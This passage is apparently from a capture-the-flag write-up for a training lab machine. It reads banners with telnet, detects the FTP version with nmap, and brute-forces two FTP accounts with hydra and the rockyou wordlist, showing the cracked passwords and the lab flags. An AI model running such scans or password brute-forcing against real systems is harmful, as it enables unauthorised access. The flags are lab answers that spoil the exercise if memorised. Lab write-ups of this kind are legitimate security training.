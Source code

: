 We have the flag in the Server header.

## What is the flag hidden in the SSH server header ?

Like for the previous question, we can use telnet to get the flag, but this time, we don't need to send any specific request. The SSH server will just send us 
the banner when we will connect to it :  
```
attacker@AttackBox:~$ telnet 10.10.9.119 22
Trying 10.10.9.119...
Connected to 10.10.9.119.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
```

## We have an FTP server listening on a nonstandard port. What is the version of the FTP server ?

It seems that the ftp server is running on port 10021. We can use nmap to get the service version bu using the `-sV` option :  
```
attacker@AttackBox:~$ nmap 10.10.9.119 -p 10021 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-08 15:11 CET
Nmap scan report for 10.10.9.119
Host is up (0.034s latency).

PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

The version of the FTP server is vsftpd 3.0.3.

## We learned two usernames using social engineering: eddie and quinn. What is the flag hidden in one of these two account files and accessible via FTP ?

The only thing to try here is to brute force those users using hydra. First, we can create a file containing the two usernames :  
```
attacker@AttackBox:~$ echo eddie > users.txt
attacker@AttackBox:~$ echo quinn >> users.txt
attacker@AttackBox:~$ cat users.txt 
eddie
quinn
```

Then, we can try to bruteforce those user's password on port 10021 :  
```
attacker@AttackBox:~$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.9.119:10021
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-08 15:17:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688802 login tries (l:2/p:14344401), ~1793051 tries per task
[DATA] attacking ftp://10.10.9.119:10021/
[10021][ftp] host: 10.10.9.119   login: eddie   password: jordan
[10021][ftp] host: 10.10.9.119   login: quinn   password: andrea
1 of 1 target successfully completed, 2 valid passwords found
```